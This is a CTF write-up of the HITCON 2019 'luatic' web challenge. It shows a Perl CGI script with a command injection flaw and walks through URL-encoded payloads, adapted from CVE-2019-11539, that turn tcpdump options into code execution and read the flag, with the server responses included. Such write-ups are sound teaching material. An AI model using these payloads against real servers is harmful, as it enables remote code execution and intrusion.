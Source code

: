 #HITCON2019-luatic(CallMeCro)
---
Vulnerable Point of Your Network :)

#Foreword
---
Congratulations to myself, because I solved an international CTF questions for the first time(Although
in the end it was master lanmao who reminded me of the proper way of writing payload).

#Examination Site
---
* Perl
* Command Injection
* CVE-2019-11539

#Analysis
---
As you view the source code through F12, you will find there is a hint
```bash
<!-- Hint for you :)
     <a href='diag.cgi'>diag.cgi</a>
     <a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

Then we open the diag.cgi to get its source code
```bash
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;

    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
It is easy to see that there is a command injection.Now, we have to figure out what to do with it.

#Exploit
---
It's easy to think about going to orange's blog since he is the author of it.
https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html

Here we found CVE-2019-11539 and its payload:
```bash
-r$x="ls /",system$x# 2>/data/runtime/tmp/tt/setcookie.thtml.ttc < 
```

We'll modify it a little bit and try to commit

```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%22ls+-lt+%2f%22%2csystem%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro
```
After we commit it,we will get this
```bash
total  96
-rwsr-sr-x  1 root root   8520  Oct 11  23:57  $READ_FLAG$
-r--------  1 root root     49  Oct 11  23:59  FLAG
.....
```

And then I stopped.The "cat" command could not be used, and the execution of $READ_FLAG$ failed.
Finally, master lanmao told me about perl's syntax problems.The final payload:
```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%2f%24%2f%2fREAD_FLAG%2f%24system%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro

Response:
HTTP/1.1 200 OK
Date: Sun, 12 Oct 2019 07:04:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 50
Connection: close
Content-Type: text/html

hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}
```

laomao tql.